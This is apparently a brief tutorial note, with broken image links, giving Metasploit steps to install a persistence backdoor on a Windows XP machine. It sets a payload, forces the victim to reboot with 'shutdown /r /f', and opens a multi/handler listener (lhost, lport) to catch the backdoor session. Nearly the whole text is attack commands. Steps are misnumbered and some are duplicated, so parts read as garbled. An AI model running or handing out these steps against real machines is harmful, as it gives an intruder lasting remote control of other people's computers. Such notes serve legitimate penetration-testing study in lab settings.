



meterpreter
Backdoor on Windows XP
1. On metasploit we search for a persistence backdoor exploit
search persistance

2.
use exploit/windows/local/persistence
3. set payload

5.
show options

6.
run
7. Restart the remote Windows machine to make effective the backdoor
sessions -i <Id-session>
shell
shutdown /r /f
shell
shutdown /r /f

9. come back to metasploit and check if there are working listeners
jobs -l
if not we have to create a listener on metasploit
use exploit/multi/handler
set lhost <lhost>
set lport <lport>
set payload <same-payload-placed-in-the-victim-machine>
run
set lhost <lhost>
set lport <lport>
set payload <same-payload-placed-in-the-victim-machine>
run
10. press ENTER and interact with the backdoor session